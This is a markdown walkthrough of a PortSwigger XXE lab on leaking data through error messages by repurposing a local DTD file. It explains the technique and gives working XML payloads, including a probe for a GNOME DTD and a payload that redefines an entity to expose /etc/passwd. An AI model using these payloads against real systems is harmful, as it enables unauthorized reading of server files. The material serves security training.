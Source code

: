 # Exploiting XXE to retrieve data by repurposing a local DTD

[Lab in PortSwigger](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)

## Definition
The preceding technique works fine with an external DTD, but it won't normally work with an internal DTD that is fully specified within the DOCTYPE element. This is because the technique involves using an XML parameter entity within the definition of another parameter entity. Per the XML specification, this is permitted in external DTDs but not in internal DTDs. (Some parsers might tolerate it, but many do not.)

So what about blind XXE vulnerabilities when out-of-band interactions are blocked? You can't exfiltrate data via an out-of-band connection, and you can't load an external DTD from a remote server.

In this situation, it might still be possible to trigger error messages containing sensitive data, due to a loophole in the XML language specification. If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed.

This means that an attacker can employ the error-based XXE technique from within an internal DTD, provided the XML parameter entity that they use is redefining an entity that is declared within an external DTD. Of course, if out-of-band connections are blocked, then the external DTD cannot be loaded from a remote location. Instead, it needs to be an external DTD file that is local to the application server. Essentially, the attack involves invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data. This technique was pioneered by Arseniy Sharoglazov, and ranked #7 in our top 10 web hacking techniques of 2018.

For example, suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`, and this DTD file defines an entity called `custom_entity`. An attacker can trigger an XML parsing error message containing the contents of the /etc/passwd file by submitting a hybrid DTD like the following:
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

This DTD carries out the following steps:

- Defines an XML parameter entity called local_dtd, containing the contents of the external DTD file that exists on the server filesystem.
- Redefines the XML parameter entity called custom_entity, which is already defined in the external DTD file. The entity is redefined as containing the error-based XXE exploit that was already described, for triggering an error message containing the contents of the /etc/passwd file.
- Uses the local_dtd entity, so that the external DTD is interpreted, including the redefined value of the custom_entity entity. This results in the desired error message.

Since this XXE attack involves repurposing an existing DTD on the server filesystem, a key requirement is to locate a suitable file. This is actually quite straightforward. Because the application returns any error messages thrown by the XML parser, you can easily enumerate local DTD files just by attempting to load them from within the internal DTD.

For example, Linux systems using the GNOME desktop environment often have a DTD file at `/usr/share/yelp/dtd/docbookx.dtd`. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

After you have tested a list of common DTD files to locate a file that is present, you then need to obtain a copy of the file and review it to find an entity that you can redefine. Since many common systems that include DTD files are open source, you can normally quickly obtain a copy of files through internet search. 

## Notes
This lab has a `Check stock` feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.

**Original Request**
```http
POST /product/stock HTTP/1.1
...

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

**Recognition Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE recon [
    <!ENTITY % local SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    %local;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Malicious Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE recon [
    <!ENTITY % local SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamsa '
          <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
       <!ENTITY &#x25; wrapper "<!ENTITY &#x26;#x25; pwn SYSTEM &#x27;file:///abc/&#x25;file;&#x27;>">&#x25;wrapper;&#x25;pwn;
    '>
    %local;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

**References**  
[Automating local DTD discovery for XXE exploitation](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/)

## Key Words
> xml, xxe, system dtd, local, schema, entity
